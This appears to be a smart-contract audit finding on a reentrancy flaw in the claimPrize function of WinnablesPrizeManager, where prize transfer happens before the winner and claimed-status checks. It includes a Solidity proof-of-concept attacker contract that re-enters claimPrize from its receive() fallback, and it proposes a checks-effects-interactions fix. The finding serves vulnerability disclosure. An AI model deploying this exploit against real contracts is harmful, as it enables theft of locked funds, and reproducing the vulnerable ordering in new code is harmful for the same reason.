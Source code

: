 Polite Inky Gibbon

High

# The claimPrize function of WinnablesPrizeManager has a reentrancy vulnerability, which can be exploited by the winner to claim the reward multiple times

### Summary

The claimPrize function of WinnablesPrizeManager has a reentrancy vulnerability, which can be exploited by the winner to claim the reward multiple times:
```solidity
if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
```
In the function, the logic to check and update `rafflePrize.status` to `RafflePrizeStatus.CLAIMED` is implemented at the end of the function, not at the beginning.


### Root Cause

The claimPrize function of the WinnablesPrizeManager contract does not follow CEI, resulting in a reentrancy vulnerability:
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L103-L124
```solidity
/// @notice (Public) Send the prize for a Raffle to its rightful winner
    /// @param raffleId ID of the raffle
    function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
        RaffleType raffleType = rafflePrize.raffleType;
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked { _ethLocked -= _ethRaffles[raffleId]; }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender);
        } else revert InvalidRaffle();
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
    }
```

### Internal pre-conditions

1. The attacker only needs to be the winner

### External pre-conditions

_No response_

### Attack Path

1. The attacker uses a malicious contract to participate in raffles and becomes a winner
2. After becoming a winner, the attacker can call the claimPrize function of the WinnablesPrizeManager contract, triggering a reentrancy vulnerability and claiming rewards multiple times (e.g. claiming ETH multiple times)

### Impact

The rewards in the `WinnablesPrizeManager` contract can be claimed multiple times by the winner using a reentrancy attack

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.24;

import "./WinnablesPrizeManager.sol";

contract ReentrancyAttack {
    WinnablesPrizeManager public target;
    uint256 public targetRaffleId;

    constructor(address _target, uint256 _raffleId) {
        target = WinnablesPrizeManager(_target);
        targetRaffleId = _raffleId;
    }

    // Fallback function to receive ETH and re-enter claimPrize
    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.claimPrize(targetRaffleId);
        }
    }

    function attack() external {
        target.claimPrize(targetRaffleId);
    }
}
```

### Mitigation

Change the claimPrize function as follows:
```solidity
function claimPrize(uint256 raffleId) external {
    RafflePrize storage rafflePrize = _rafflePrize[raffleId];
    RaffleType raffleType = rafflePrize.raffleType;
    if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
    if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
    rafflePrize.status = RafflePrizeStatus.CLAIMED;

    if (raffleType == RaffleType.NFT) {
        NFTInfo storage raffle = _nftRaffles[raffleId];
        _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
        _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
    } else if (raffleType == RaffleType.TOKEN) {
        TokenInfo storage raffle = _tokenRaffles[raffleId];
        unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
        _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
    } else if (raffleType == RaffleType.ETH) {
        unchecked { _ethLocked -= _ethRaffles[raffleId]; }
        _sendETHPrize(_ethRaffles[raffleId], msg.sender);
    } else revert InvalidRaffle();

    emit PrizeClaimed(raffleId, msg.sender);
}
```